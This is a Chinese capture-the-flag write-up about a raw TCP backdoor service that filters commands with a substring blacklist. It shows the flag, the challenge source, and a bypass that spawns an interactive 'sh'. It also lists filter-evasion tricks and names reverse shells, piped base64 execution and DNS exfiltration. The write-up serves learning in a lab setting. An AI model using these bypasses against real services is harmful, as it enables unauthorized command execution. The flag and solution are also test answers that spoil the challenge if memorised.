



# Web · 21209 端口后门：命令黑名单绕过 —— Writeup

> 分类：Web / 后门端口（不是 webshell，也不是 pwn）
> 目标：`node4.anna.nssnode.cn:21209`（裸 TCP，不是 HTTP）
> 做题日期：2026-10-29
> Flag：`NSSCTF{909c5f3f-ffe5-4e79-b351-51000652206b}`

---

## 30 秒速查卡

```
连上去不是 HTTP，是自写的 TCP shell（banner: My_shell_ProVersion）
  ↓ 但几乎所有命令都断线
读到源码：blacklist = ['cat','ls',' ','cd','echo','<','${IFS}']  （子串匹配，命中就 exit）
  ↓ 只输入 3 个字符
sh
  ↓ 进入真正的 /bin/sh（stdin 就是这条 socket），后面的命令不经过 Python 过滤器
cat /flag
  ↓
NSSCTF{909c5f3f-ffe5-4e79-b351-51000652206b}
```

**手打全过程只要 4 行：**

```bash
nc node4.anna.nssnode.cn 21209
sh
id
cat /flag
```

---

## 1. 为什么蚁剑用不上

用户当时的问法是"这道题该怎么做？用一键的话"（想用蚁剑一键连）。

**结论：蚁剑帮不上忙。** 原因是协议层的不匹配：

| | 蚁剑 | 本题 |
|---|---|---|
| 传输 | HTTP（`POST` 表单） | **裸 TCP**，没有 HTTP 头 |
| 载荷 | `<?php @eval(...);?>` | 纯文本命令 |
| 服务端 | PHP 解释器 | Python `os.system()` |

所以在 21209 上，蚁剑发的 `POST / HTTP/1.1` 只会被当成一行命令去执行（然后命中黑名单断开）。

> **遇到"端口上不是 HTTP"的题，第一件事是抓原始 banner，而不是套 Web 工具。**

## 2. 侦察：先确认它是什么

```python
import socket
s = socket.create_connection(("node4.anna.nssnode.cn", 21209), timeout=8)
print(s.recv(8192).decode("utf-8", "replace"))
```

返回一段 ASCII art + 一行版本号：



```
(ASCII art ...)
My_shell_ProVersion
```

`My_shell_ProVersion` —— 这是个"自称 shell"的服务。接着试探：

| 发送 | 返回 | 推断 |
|---|---|---|
| `id` | `uid=0(root) gid=0(root) groups=0(root)` | 真的在执行命令 |
| `whoami` | `root` | 同上 |
| `ls` | （空） | 可能是空目录，也可能是假象 |
| `help` | （空） | 没有内置帮助 |
| `cat /flag` | **连接直接断开** | 有黑名单 |
| `id -u` | **连接直接断开** | 黑名单里有**空格**！ |
| `uname -a` | **断开** | 同上 |

关键观察：**只要命令行里出现空格，连接立刻关掉**。
这不是"命令不存在"，是**服务端主动 `exit`**。

## 3. 拿到服务端源码

先用 `sh` 进子 shell（见下一节），再把源码读出来：



```python
# /main.py
import os

art = '''...'''
print(art)
print("My_shell_ProVersion")

blacklist = ['cat', 'ls', ' ', 'cd', 'echo', '<', '${IFS}']

while True:
    command = input()
    for i in blacklist:
        if i in command:
            exit(0)          # 命中就断开
    os.system(command)       # 否则交给 /bin/sh -c
```

```sh
# /run.sh
echo $FLAG > /flag && export FLAG=not_flag && FLAG=not_flag
socat TCP4-LISTEN:9999,tcpwrap=script,reuseaddr,fork EXEC:"python -u /main.py"
```

### 黑名单逐个分析

| 被禁 | 封的是什么打法 |
|---|---|
| `cat` | 最直接的读文件 |
| `ls` | 列目录（所以 `ls` 那条是**命中黑名单断开**，不是空目录！） |
| ` `（单个空格） | 一切"命令 + 参数"的写法 |
| `cd` | 切目录 |
| `echo` | 写文件、`echo $FLAG` |
| `<` | 输入重定向（`cat</flag`） |
| `${IFS}` | **经典的空格替代品**——出题人预判了 |

而且这是**子串匹配**（`if i in command`），不是按 token 匹配 —— 所以
`catflag` 也会断（含 `cat`），`cdxx` 也会断（含 `cd`）。

### 另外一个坑：假 flag

```sh
echo $FLAG > /flag          # 真 flag 进了 /flag
export FLAG=not_flag        # 然后环境变量被改掉
```

所以 `env` / `set` / `printenv` 看到 `FLAG=not_flag` —— **那是假的**。

## 4. 正解：只输入 3 个字符



```
sh
```

`sh` 这三个字符：

- 不含 `cat` / `ls` / ` ` / `cd` / `echo` / `<` / `${IFS}` 任何一个 → 过检查
- `os.system("sh")` → 启动一个 `/bin/sh`
- 这个 `sh` 的 **stdin 就是 socat 接过来的那条 socket**
- 于是你后面敲的一切都直接进 `sh`，**完全不经过 Python 的过滤器**

```
$  sh
$  id
   uid=0(root) gid=0(root) groups=0(root)
$  cat /flag
NSSCTF{909c5f3f-ffe5-4e79-b351-51000652206b}
```

## 5. 如果只想"绕黑名单读一个文件"（不拿 shell）

理论上还有这些思路，但**在本题全部失效**，正好用来理解黑名单设计：

| 思路 | 写法 | 本题结果 |
|---|---|---|
| 用别的程序代替 cat | `tac /flag`、`nl /flag`、`xxd /flag`、`od -c /flag` | ❌ 都带空格 |
| 空格替代 | `cat${IFS}/flag` | ❌ `${IFS}` 被显式禁 |
| Tab 代替空格 | `cat\t/flag` | ❌ 黑名单只查 `' '`，理论上能过——但 shell 里 Tab 是补全，实际发送 `\t` 才有效 |
| 重定向 | `cat</flag` | ❌ `<` 被禁 |
| 引号拼接 | `c'a't /flag` | ❌ 仍含空格 |
| 通配符 | `cat /fla?` | ❌ 仍含空格 + `cat` |
| 相对路径 | `cat flag` | ❌ 仍含空格 |

**注意最后一行**：黑名单只禁了 `cat` 这个串，但因为**任何空格都被禁**，
所有"程序 + 参数"的组合都活不下来 —— 这才是这题真正的死结。

而 `sh` / `bash` / `perl` / `python3` 这类**无参数的交互解释器**不在名单里，
它们一旦跑起来就把 stdin 抢走了，从此过滤器失效。

## 6. 原理复盘

```
socat TCP4-LISTEN:9999,fork EXEC:"python -u /main.py"
  │
  ├── 每个连接 fork 一个新 python
  ├── python 读一行 -> 子串黑名单 -> os.system(line)
  │        │
  │        └── os.system 会 fork /bin/sh -c "<line>"，并把 stdin/stdout 继承过去
  │
  └── 当 line = "sh" 时：
         python 的 stdin 被 sh 接管
         python 卡在 os.system 里等 sh 退出
         之后所有输入都归 sh，python 再也看不到
```

**核心认知**：`os.system()` 启动的子进程**继承父进程的 stdin**。
只要你能让子进程变成一个"会一直读 stdin 的东西"（shell、`python -i`、`cat` 等），
那么过滤器就只挡住了第一个 token。

## 7. 踩坑记录

| 坑 | 表现 | 教训 |
|---|---|---|
| 以为是 HTTP | `BadStatusLine` | 端口通了不代表是 Web，抓原始字节 |
| 想用蚁剑一键 | 完全不通 | 蚁剑只对 HTTP webshell 有效 |
| `ls` 没输出 | 以为是空目录 | 其实是命中黑名单被断开（`ls` 在名单里） |
| 试 `cat${IFS}/flag` | 断开 | 出题人显式禁了 `${IFS}` |
| `env` 看到 `FLAG=not_flag` | 差点提交假 flag | 环境变量被改过，真 flag 在 `/flag` |
| 看不出为什么断开 | — | 有源码就读源码；没有就二分试 token |

## 8. 这类题的分类与识别

```
端口不是 HTTP？
  ├─ banner 是纯文本 + 能执行系统命令   -> 后门端口 / 命令黑名单（本题）
  ├─ banner 是协议版本号 + 二进制交互  -> 自定义协议 / pwn
  └─ 完全没有 banner，发数据无响应     -> pwn 或需要特定握手
```

| 题型 | 典型手法 |
|---|---|
| 命令黑名单 | `sh` / `bash` 起交互 shell；`${IFS}`、`<`、引号、通配符、`tac`/`nl`/`xxd` |
| 关键字过滤 | base64 编码命令：`echo xxx \| base64 -d \| sh` |
| 长度限制 | `wget` 拉脚本 / `curl` 一行 |
| 无回显 | 反弹 shell、写文件到 web 目录、DNS 外带 |

## 9. 一句话总结

> **黑名单只查你输入的那一行，查不到你下一行输给谁。**
> 看到一个"不许带空格的 shell"，答案往往是"起一个 shell"。
